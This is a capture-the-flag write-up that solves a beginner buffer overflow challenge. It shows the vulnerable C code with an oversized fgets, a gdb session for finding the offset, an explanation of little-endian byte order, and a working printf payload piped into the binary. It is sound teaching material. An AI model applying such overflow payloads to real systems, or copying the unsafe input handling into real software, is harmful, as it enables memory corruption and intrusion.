# Writeup

## Static Analysis

The C code for this challenge is very similar to the previous one. The only difference is the if condition in the `vuln` function:

```c
void vuln(void) {
    long check = 0x0123456789abcdef;
    char buffer[16];

    printf("Enter your name: ");
    fgets(buffer, 1024, stdin);
    printf("Hello, %s", buffer);

    if (check == 0xfedcba9876543210) {
        win();
    }

    return;
}
```

This time `check` needs to be changed to a specific value rather than just being modified. The `fgets` bug is still present which we will again use for the basis of our exploit.

## Dynamic Analysis

We will start by doing the same as in Buffer Overflow 1:

```
gdb ./vuln
r
CTRL+C
f 6
b 17
c
```

This time, however, we will enter 24 `A`s followed by `BCDEFGHI`. Now when we hit the breakpoint and do `p/x check` we see that it has been changed to `0x4948474645444342`. `0x42` is the ASCII character code for `B`, `0x43` is `C`, etc. Looking at `check` it seems like our `BCDEFGHI` has been reversed which is exactly what has happened; `x86-64` is a little-endian architecture which means when a number is stored in memory, the least significant byte is stored first.

When overwriting `check` we will need to remember to flip `0xfedcba9876543210` in order to account for endianness.

## Exploit

Unfortunately this time we will be unable to just type our exploit directly into the program as many of the bytes we need correspond to non-printable ASCII characters. In order to solve this problem we can use the `printf` program.

`printf`, as well as a `libc` function, is a command line tool that allows us to output text. It also allows the use of `\x` escape sequences to produce bytes from their ASCII codes. We can use this to produce our non-printable characters and pipe the output into the `vuln` program in order to exploit it:

```
printf 'AAAAAAAAAAAAAAAAAAAAAAAA\x10\x32\x54\x76\x98\xba\xdc\xfe\n' | ./vuln
```

The `printf` output can also be piped to `nc` in order to exploit the remote target.